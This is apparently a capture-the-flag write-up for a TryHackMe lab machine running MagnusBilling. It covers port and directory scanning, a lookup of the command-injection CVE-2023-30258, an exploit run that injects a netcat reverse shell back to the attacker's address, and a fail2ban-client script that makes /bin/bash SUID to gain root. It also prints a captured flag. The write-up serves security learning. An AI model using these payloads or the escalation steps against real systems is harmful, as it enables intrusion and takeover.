





<br>


<br>

## Reconnaissance
### Front-End Recon


### Fingerprinting Web Servers

## Mapping and Discovery
```bash
> nmap -sC -sV -p$(nmap --min-rate=2000 -T4 -p- $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') $IP -oN tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-06 23:18 EDT
Nmap scan report for billing.thm (10.10.78.187)
Host is up (0.24s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://billing.thm/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.84 seconds
``` 
### Adding Localhost
```bash
> echo "$IP magnus.thm" | sudo tee -a /etc/hosts  
```
### Debugging Page Content
```bash
> curl -I billing.thm
HTTP/1.1 302 Found
Date: Mon, 07 Apr 2025 03:53:44 GMT
Server: Apache/2.4.56 (Debian)
Location: ./mbilling
Content-Type: text/html; charset=UTF-8
```
```bash
> curl -v billing.thm
* Host billing.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.78.187
*   Trying 10.10.78.187:80...
* Connected to billing.thm (10.10.78.187) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: billing.thm
> User-Agent: curl/8.11.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 Found
< Date: Mon, 07 Apr 2025 03:53:56 GMT
< Server: Apache/2.4.56 (Debian)
< Location: ./mbilling
< Content-Length: 1
< Content-Type: text/html; charset=UTF-8
< 

* Connection #0 to host billing.thm left intact

```

### Technology Stack Identification

### Directory and File Listings
```bash
> feroxbuster -u http://billing.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt --scan-dir-listings
                                                                                                                                                            
404 GET Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403 GET Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302 GET http://billing.thm/ => ./mbilling
301 GET http://billing.thm/mbilling => http://billing.thm/mbilling/
200 GET http://billing.thm/mbilling/LICENSE
301 GET http://billing.thm/mbilling/archive => http://billing.thm/mbilling/archive/
301 GET http://billing.thm/mbilling/assets => http://billing.thm/mbilling/assets/
301 GET http://billing.thm/mbilling/archive/custom-neptune => http://billing.thm/mbilling/archive/custom-neptune/
301 GET http://billing.thm/mbilling/archive/blue-neptune => http://billing.thm/mbilling/archive/blue-neptune/
301 GET http://billing.thm/mbilling/archive/blue-triton => http://billing.thm/mbilling/archive/blue-triton/
301 GET http://billing.thm/mbilling/archive/custom-triton => http://billing.thm/mbilling/archive/custom-triton/
302 GET http://billing.thm/index.php => ./mbilling
301 GET http://billing.thm/mbilling/archive/blue-crisp => http://billing.thm/mbilling/archive/blue-crisp/
200 GET http://billing.thm/mbilling/index.php
200 GET http://billing.thm/mbilling/locale.js
200 GET http://billing.thm/mbilling/icons.js
200 GET http://billing.thm/mbilling/resources/images/loading.gif
301 GET http://billing.thm/mbilling/fpdf => http://billing.thm/mbilling/fpdf/
200 GET http://billing.thm/mbilling/resources/images/logo.ico
301 GET http://billing.thm/mbilling/lib => http://billing.thm/mbilling/lib/
200 GET http://billing.thm/mbilling/lib/composer.json
200 GET http://billing.thm/mbilling/lib/GoogleAuthenticator/GoogleAuthenticator.php
200 GET http://billing.thm/mbilling/index.html
301 GET http://billing.thm/mbilling/lib/stripe => http://billing.thm/mbilling/lib/stripe/
200 GET http://billing.thm/robots.txt
301 GET http://billing.thm/mbilling/lib/GoogleAuthenticator => http://billing.thm/mbilling/lib/GoogleAuthenticator/
301 GET http://billing.thm/mbilling/resources => http://billing.thm/mbilling/resources/
301 GET http://billing.thm/mbilling/lib/stripe/composer => http://billing.thm/mbilling/lib/stripe/composer/
301 GET http://billing.thm/mbilling/tmp => http://billing.thm/mbilling/tmp/
301 GET http://billing.thm/mbilling/fpdf/font => http://billing.thm/mbilling/fpdf/font/
301 GET http://billing.thm/mbilling/resources/css => http://billing.thm/mbilling/resources/css/
301 GET http://billing.thm/mbilling/resources/csv => http://billing.thm/mbilling/resources/csv/
301 GET http://billing.thm/mbilling/resources/help => http://billing.thm/mbilling/resources/help/
301 GET http://billing.thm/mbilling/resources/fonts => http://billing.thm/mbilling/resources/fonts/
301 GET http://billing.thm/mbilling/resources/images => http://billing.thm/mbilling/resources/images/
200 GET http://billing.thm/mbilling/resources/index.php
301 GET http://billing.thm/mbilling/resources/locale => http://billing.thm/mbilling/resources/locale/
301 GET http://billing.thm/mbilling/lib/stripe/vendor => http://billing.thm/mbilling/lib/stripe/vendor/
301 GET http://billing.thm/mbilling/resources/reports => http://billing.thm/mbilling/resources/reports/
301 GET http://billing.thm/mbilling/resources/sounds => http://billing.thm/mbilling/resources/sounds/
200 GET http://billing.thm/mbilling/resources/help/index.php
200 GET http://billing.thm/mbilling/resources/css/index.php
200 GET http://billing.thm/mbilling/resources/csv/index.php
200 GET http://billing.thm/mbilling/resources/reports/index.php
301 GET http://billing.thm/mbilling/resources/images/fonts => http://billing.thm/mbilling/resources/images/fonts/
301 GET http://billing.thm/mbilling/resources/images/icons => http://billing.thm/mbilling/resources/images/icons/
200 GET http://billing.thm/mbilling/resources/images/index.php
301 GET http://billing.thm/mbilling/resources/images/flags => http://billing.thm/mbilling/resources/images/flags/
301 GET http://billing.thm/mbilling/resources/images/modules => http://billing.thm/mbilling/resources/images/modules/
200 GET http://billing.thm/mbilling/resources/locale/index.php
301 GET http://billing.thm/mbilling/resources/images/themes => http://billing.thm/mbilling/resources/images/themes/
301 GET http://billing.thm/mbilling/resources/sounds/en => http://billing.thm/mbilling/resources/sounds/en/
301 GET http://billing.thm/mbilling/resources/sounds/br => http://billing.thm/mbilling/resources/sounds/br/
301 GET http://billing.thm/mbilling/resources/sounds/es => http://billing.thm/mbilling/resources/sounds/es/
301 GET http://billing.thm/mbilling/resources/images/wallpapers => http://billing.thm/mbilling/resources/images/wallpapers/
200 GET http://billing.thm/mbilling/resources/sounds/index.php
301 GET http://billing.thm/mbilling/resources/locale/php => http://billing.thm/mbilling/resources/locale/php/
```
## Vulnerability Analysis
### Vulnerability Identification
```bash
> curl http://billing.thm/mbilling/lib/composer.json -o -
{
    "require": {
        "stripe/stripe-php": "^6.37"
    }
}
```
## Version Detection
```bash
> curl http://billing.thm/mbilling/LICENSE -o - 
```
```bash
> sploitscan CVE-2023-30258

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.10.5 / Alexander Hagenah / @xaitax / ah@primepage.de

╔════════════════════════╗
║ CVE ID: CVE-2023-30258 ║
╚════════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2023-06-23
├ Base Score:  N/A (N/A)
├ Vector:      N/A
└ Description: Command Injection vulnerability in MagnusSolution magnusbilling 6.x and 7.x allows remote attackers
               to run arbitrary commands via unauthenticated HTTP request.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  92.56% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
└ ❌ No data found.

┌───[ 💣 Public Exploits (Total: 2) ]
|
├ GitHub
│  ├ Date: 2025-03-26 - https://github.com/n00o00b/CVE-2023-30258-RCE-POC
│  └ Date: 2025-03-17 - https://github.com/Chocapikk/CVE-2023-30258
│
└ Other
   ├ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2023-30258
   └ Nuclei: https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2023/CVE-2023-30258.yaml

┌───[ 🕵️ HackerOne Hacktivity ]
|
├ Rank:        2378
├ Reports:     1
└ Severity:    Unknown: 1 / None: 0 / Low: 0 / Medium: 0 / High: 0 / Critical: 0

┌───[ 🤖 AI-Powered Risk Assessment ]
|
|                                     
| ❌ OpenAI API key is not configured correctly.
|
└────────────────────────────────────────

┌───[ ⚠️ Patching Priority Rating ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ https://eldstal.se/advisories/230327-magnusbilling.html
├ https://github.com/magnussolution/magnusbilling7/commit/ccff9f6370f530cc41ef7de2e31d7590a0fdb8c3
└ http://packetstormsecurity.com/files/175672/MagnusBilling-Remote-Command-Execution.html
```
## Exploitation
```bash
> python3 exploit.py -u http://billing.thm/mbilling --cmd "nc -c sh 10.23.93.75 9001"
Target URL: http://billing.thm/mbilling
Executing command: nc -c sh 10.23.93.75 9001
http://billing.thm/mbilling/lib/icepay/icepay.php?democ=;nc%20-c%20sh%2010.23.93.75%209001;sleep 2;
```
```bash
> nc -lvnp 9001 
```
### Post Exploitation Enumeration 
```bash
asterisk@Billing:/home$ ls -al
ls -al
total 12
drwxr-xr-x  3 root   root   4096 Mar 27  2024 .
drwxr-xr-x 19 root   root   4096 Mar 27  2024 ..
drwxr-xr-x 15 magnus magnus 4096 Sep  9  2024 magnus
asterisk@Billing:/home$ 
```
```bash
asterisk@Billing:/home$ cat /etc/passwd | grep 100 

_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
magnus:x:1000:1000:magnus,,,:/home/magnus:/bin/bash
asterisk:x:1001:1001:Asterisk PBX:/var/lib/asterisk:/sbin/nologin
```
### Gaining Root 
> https://juggernaut-sec.com/fail2ban-lpe/
```bash
asterisk@Billing:/home$ sudo -l
sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```
### Flags
```bash
asterisk@Billing:/home/magnus$ cat user.txt
cat user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```
```bash
bash-5.1# id
id
uid=1001(asterisk) gid=1001(asterisk) euid=0(root) egid=0(root) groups=0(root),1001(asterisk)
bash-5.1# 
```
```bash 
#!/bin/bash

JAIL="asterisk-iptables"
IP_TO_BAN="1.2.3.4"
ACTION="iptables-allports-ASTERISK"
echo "Getting Fail2ban status..."
sudo /usr/bin/fail2ban-client status
echo "Getting actions for $JAIL..."
sudo /usr/bin/fail2ban-client get $JAIL actions
echo "Getting action details for $JAIL, $ACTION, actionban..."
sudo /usr/bin/fail2ban-client get $JAIL action $ACTION actionban
echo "Changing action for $JAIL to enable chmod +s /bin/bash..."
sudo /usr/bin/fail2ban-client set $JAIL action $ACTION actionban 'chmod +s /bin/bash'
echo "Verifying the action change for $JAIL..."
sudo /usr/bin/fail2ban-client get $JAIL action $ACTION actionban
echo "Banning IP $IP_TO_BAN..."
sudo /usr/bin/fail2ban-client set $JAIL banip $IP_TO_BAN
echo "Starting a shell with setuid privileges..."
/bin/bash -p
```